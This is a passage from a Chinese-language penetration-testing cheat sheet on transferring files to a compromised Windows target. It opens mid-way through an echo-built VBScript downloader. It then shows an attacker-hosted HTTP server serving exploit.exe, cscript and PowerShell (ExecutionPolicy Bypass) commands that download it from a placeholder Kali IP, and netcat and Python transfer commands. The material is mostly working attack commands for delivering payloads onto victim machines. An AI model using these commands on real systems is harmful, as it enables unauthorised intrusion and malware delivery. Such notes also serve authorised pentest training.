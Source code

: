 ```vb
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

攻击端起 http 服务
```bash
cp exploit.exe /var/www/
service apache2 start
```

在目标机执行 vb 命令,会生成 wget.vbs
```bash
dir wget.vbs
cscript wget.vbs http://<kali-ip>/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)
```

**powershell**

同样,攻击端起 http 服务

```
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<kali-ip>/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行 powershell 命令,会生成 wget.ps1
目标机执行:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

**nc**
```bash
# 收
nc -nvlp 4444 > aaa
```
```bash
# 发
nc -nv 192.168.30.35 4444 </usr/share/aaa    # kali
```

**python**
```bash
python -m SimpleHTTPServer 8080
```
```
wget 192.168.1.1:8080/poc
```

---